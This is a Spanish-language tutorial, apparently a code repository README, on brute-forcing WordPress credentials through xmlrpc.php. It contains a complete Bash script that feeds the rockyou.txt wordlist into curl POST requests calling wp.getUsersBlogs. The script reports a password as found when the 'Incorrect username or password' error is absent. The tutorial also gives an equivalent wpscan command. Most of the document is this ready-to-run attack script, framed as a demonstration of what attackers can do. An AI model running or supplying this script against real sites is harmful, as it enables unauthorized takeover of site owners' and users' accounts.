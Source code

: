 # Descripción

Cómo abusar del archivo **xmlrpc.php** para mediante la creación de un script de Bash aplicar fuerza bruta. El objetivo será demostrar cómo los atacantes pueden utilizar este archivo existente en WordPress para intentar descubrir credenciales válidas y comprometer la seguridad del sitio web.

Para lograrlo, crearemos un script de Bash en el cual emplearemos la herramienta curl para enviar solicitudes XML-RPC al archivo xmlrpc.php del sitio web WordPress. A través del método **wp.getUsersBlogs**, enviaremos una estructura XML que contendrá el nombre de usuario y la contraseña a probar.

En caso de que las credenciales no sean correctas, el servidor responderá con un mensaje de error que indica que las credenciales son incorrectas. Sin embargo, si las credenciales son válidas, la respuesta del servidor será diferente y no incluirá el mensaje de error.

De esta forma, podremos utilizar la respuesta del servidor para determinar cuándo hemos encontrado credenciales válidas y, de esta forma, tener acceso al sitio web de WordPress comprometido.


**El script es equivalente al siguiente comando de wpsscan para fuerza bruta:**

``wpsscan --url https://ejemplo.com:80 -U usuario -P /usr/share/wordlists/rockyou.txt``




	#!/bin/bash

	function ctrl_c(){ 
        echo -e "\n\n[!] Saliendo...\n"
        exit 1
	}
 

	# Ctrl+C
	trap ctrl_c SIGINT


	function createXML(){  
        password=$1
        xmlfile="""
	<?xml version=\"1.0\" encoding=\"UTF-8\"?>
	<methodCall>    
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>USER</value></param>                  <-- *Debemos ingresar el valor del usuario previamente descubierto*
	<param><value>$password</value></param>             
	</params> 
	</methodCall>"""


        echo $xmlfile > file.xml

        response=$(curl -s -X POST "https://ejemplo.com:80/xmlrpc.php" -d@file.xml)  <-- *debemos cambiar la direccion y puerto deseado y el nombre de archivo correspondiente*

        if [ ! "$(echo $response | grep 'Incorrect username or password.')" ]; then  <-- *el tipo de respuesta según la que nos devuelva la página objetivo*
        echo -e "\n[+] La contraseña para el usuario es $password"
        exit 0
        fi
	}
 
	
	cat /usr/share/wordlists/rockyou.txt | while read password; do      <-- *Cambiaremos la ruta en caso de querer usar otro diccionario*
        createXML $password
	done
